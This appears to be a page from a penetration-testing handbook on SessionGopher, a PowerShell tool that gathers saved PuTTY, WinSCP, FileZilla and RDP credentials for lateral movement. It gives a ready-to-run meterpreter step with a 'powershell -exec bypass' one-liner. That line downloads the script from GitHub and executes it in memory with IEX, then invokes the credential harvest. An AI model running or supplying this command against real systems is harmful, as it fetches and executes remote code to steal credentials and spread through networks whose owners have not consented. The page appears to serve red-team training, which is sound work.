

SessionGopher
Site:
https://github.com/Arvanaghi/SessionGopherSessionGopher
is a tool to obtain credentials to be used for lateral movement.
It is a PowerShell script(.ps1) that can be
executed on a target system to gather credentials that are stored locally by these applications:
• PuTTY
•
WinSCP
• SuperPuTTY
• FileZilla
• RDP
This can be very useful to gain credentials for others
machines and then can be used to move laterally within the target network
meterpreter> shell
C:/> powershell.exe -exec bypass -Command IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1 ');Invoke-SessionGopher
*It will take only 1 second,
to return to cmd press Enter key
To know
other techniques to
upload the script and execute it see this chapter → Download files from Attacker machine / Web